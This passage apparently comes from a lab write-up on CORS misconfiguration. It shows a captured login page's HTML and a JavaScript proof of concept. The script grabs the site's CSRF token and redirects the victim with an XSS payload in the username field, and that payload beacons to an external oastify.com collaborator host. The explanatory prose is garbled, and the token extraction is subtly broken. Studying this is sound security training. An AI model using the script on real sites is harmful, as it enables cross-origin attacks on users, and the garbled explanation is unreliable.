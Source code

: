 ```js
                            <a href=/>Home</a><p>|</p>
                            <a href="/my-account">My account</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <h1>Login</h1>
                    <section>
                        <form class=login-form method=POST action="/login">
                            <input required type="hidden" name="csrf" value="SKenbRSlDLlixbSfmpJGLr5D9MGba1ss">
                            <label>Username</label>
                            <input required type=username name="username" autofocus>
                            <label>Password</label>
                            <input required type=password name="password">
                            <button class=button type=submit> Log in </button>
                        </form>
                    </section>
                </div>
            </section>
            <div class="footer-wrapper">
            </div>
        </div>
    </body>
</html>
```
After analyzing the above code, we got to know that it either the user not logged to this site that's why we don't authenticated page or web server is configured to allow all origins, however it's not configured to pass credentials in a CORS request.

2. Try to find an XSS vulnerability in the login page in order to bypass all the CORS restriction. If we find a XSS vulnerability then we can make the request as if it is coming from the vulnerable website origin and from that we can access the unauthenticated pages.

**Script to check that there is any XSS vulnerability in the login page** - 
```js
<html>
    <script>
    collaboratorURL = 'http://w638wusq9v08mm9rfq3w1lhm4da4yumj.oastify.com';
    url = 'http://192.168.0.159:8080'

    fetch(url)
    .then(response => response.text())
    .then(text => {
        try{
            // The below XSS vector can be different depending on the version of web server
            xss_vector = '"><img src='+collaboratorURL+'?foundXSS=1>';

            // We already found out that there is a vulnerability in the username field of login page. Here, for CSRF token we match the CSRF token agains response and grab the value of the CSRF token.
            login_path = '/login?username='+encodeURIComponent(xss_vector)+'&password=random&csrf='+text.match(/csrf" value="([^"]+)"/);

            // Below, we change the current of victim
            location = url + login_path;
        }catch(err){
        
        }
    })
    </script>
</html>
```
